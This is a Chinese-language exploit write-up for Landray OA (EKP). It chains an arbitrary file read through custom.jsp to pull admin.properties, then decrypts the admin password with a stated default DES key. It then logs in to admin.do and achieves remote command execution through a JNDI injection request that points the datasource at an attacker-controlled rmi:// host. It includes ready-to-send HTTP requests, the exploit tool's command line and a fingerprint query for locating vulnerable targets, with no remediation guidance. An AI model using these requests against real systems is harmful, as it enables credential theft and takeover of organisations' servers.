 # 蓝凌OA admin.do JNDI远程命令执行

## 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息，读取配置文件得到密钥后访问 admin.do 即可利用 JNDI远程命令执行获取权限

## 漏洞影响

```
蓝凌OA
```

## 网络测绘

```
app="Landray-OA系统"
```

## 漏洞复现

利用 **蓝凌OA custom.jsp 任意文件读取漏洞** 读取配置文件

```plain
/WEB-INF/KmssConfig/admin.properties
```

发送请求包

```plain
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 60
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

![1](./images/202202090125006.png)

获取password后，使用 DES方法 解密，默认密钥为 **kmssAdminKey**

![2](./images/202202090125061.png)

访问后台地址使用解密的密码登录

```plain
http://xxx.xxx.xxx.xxx/admin.do
```

![3](./images/202202090126340.png)

使用工具执行命令

https://github.com/welk1n/JNDI-Injection-Exploit

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

运行工具监听端口 ping dnslog测试 命令执行 (蓝凌OA 默认使用的是 JDK 1.7)

```plain
POST /admin.do HTTP/1.1
Host: 
Cookie: JSESSIONID=90EA764774514A566C480E9726BB3D3F; Hm_lvt_9838edd365000f753ebfdc508bf832d3=1620456866; Hm_lpvt_9838edd365000f753ebfdc508bf832d3=1620459967
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Origin: 
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/cbdsdg
```

![4](./images/202202090126051.png)